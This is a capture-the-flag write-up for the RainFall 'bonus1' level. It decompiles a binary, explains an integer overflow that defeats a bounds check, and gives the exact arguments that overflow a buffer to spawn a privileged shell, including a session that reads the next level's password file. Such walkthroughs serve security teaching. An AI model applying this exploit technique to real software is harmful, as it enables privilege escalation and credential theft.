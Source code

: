 # Source Code

<table  style="margin: 0 auto;">
  <tr>
    <th>Assembly Code</th>
    <th>C Code</th>
  </tr>
  <tr>
    <td>
<pre><code class="language-asm">

Dump of assembler code for function main:
   0x08048424 <+0>:     push   ebp
   0x08048425 <+1>:     mov    ebp,esp
   0x08048427 <+3>:     and    esp,0xfffffff0
   0x0804842a <+6>:     sub    esp,0x40
   0x0804842d <+9>:     mov    eax,DWORD PTR [ebp+0xc]
   0x08048430 <+12>:    add    eax,0x4
   0x08048433 <+15>:    mov    eax,DWORD PTR [eax]
   0x08048435 <+17>:    mov    DWORD PTR [esp],eax
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>
   0x0804843d <+25>:    mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>:    cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>:    jle    0x804844f <main+43>
   0x08048448 <+36>:    mov    eax,0x1
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>
   0x0804844f <+43>:    mov    eax,DWORD PTR [esp+0x3c]
   0x08048453 <+47>:    lea    ecx,[eax*4+0x0]
   0x0804845a <+54>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804845d <+57>:    add    eax,0x8
   0x08048460 <+60>:    mov    eax,DWORD PTR [eax]
   0x08048462 <+62>:    mov    edx,eax
   0x08048464 <+64>:    lea    eax,[esp+0x14]
   0x08048468 <+68>:    mov    DWORD PTR [esp+0x8],ecx
   0x0804846c <+72>:    mov    DWORD PTR [esp+0x4],edx
   0x08048470 <+76>:    mov    DWORD PTR [esp],eax
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:    jne    0x804849e <main+122>
   0x08048482 <+94>:    mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:   mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:   mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:   call   0x8048350 <execl@plt>
   0x0804849e <+122>:   mov    eax,0x0
   0x080484a3 <+127>:   leave
   0x080484a4 <+128>:   ret
End of assembler dump.
</code></pre>
</td>
<td>
<pre><code class="language-c">
int main()
{
  char dest[40];
  int n;

  n = atoi(argv[1]);
  if ( n > 9 )
    return 1;
  memcpy(dest, argv[2], 4 * n);
  if ( n == 1464814662 )
    execl("/bin/sh", "sh", 0);
  return 0;
}
</code></pre>
</td>
</tr>
</table>



# Exploring

### Overview


The code provided has a buffer overflow if and only if the condition of `n > 9` passed.

The `n` variable that shall be overridden comes after `dest` buffer with 40 byte of len.

So to affect the `n`, `memcpy` shall copy **40** of padding + **4** bytes for target value (`n` it self), in total is 44.

From above the `n` (first arg) must have `11` as integer.

We can't do that a cause this condition `if (n > 9) return 1;`.

This condition return from the function if only greatter than `**9**.

This instruction seems intersting `4 * n`,

Yes, this is the vulnerability, the integer overflow.


### Strategie

Our goal is find a negative integer be **11** after an overflowing due `4 * negative-number`.

the multiplication by **4** is usually shifting left by **2**.

e.g: 3 * 4 -> 3 << 2

```
        3        *          4                12
00000000000000000000000000000011 * 00000000000000000000000000000100 = 00000000000000000000000000001100

00000000000000000000000000000011 << 1 = 00000000000000000000000000000110
00000000000000000000000000000011 << 2 = 00000000000000000000000000001100 = 12
```

We have to find negative number after shift by 2 become 44.

We start by **44** (**00000000000000000000000000101100**) bit representation and shift it right by **2**:

```
00000000000000000000000000101100 >> 2 = 00000000000000000000000000001011
```

Now add the bit sign (**1** on the most left):

```
   10000000000000000000000000001011 = -2147483637
   ^
0 becode 1
```

# Exploitation

The value shall ovverride **n** is **1464814662** (**0x574f4c46** -> little-endian **\x46\x4c\x4f\x57**)

So the first argument to the program is `-2147483637`,

and the second is:

```
'a' * 40 + '\x46\x4c\x4f\x57'
```

Output:

```
bonus1@RainFall:~$ ./bonus1 '-2147483637' `printf 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x46\x4c\x4f\x57'`
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

See you on the next one.
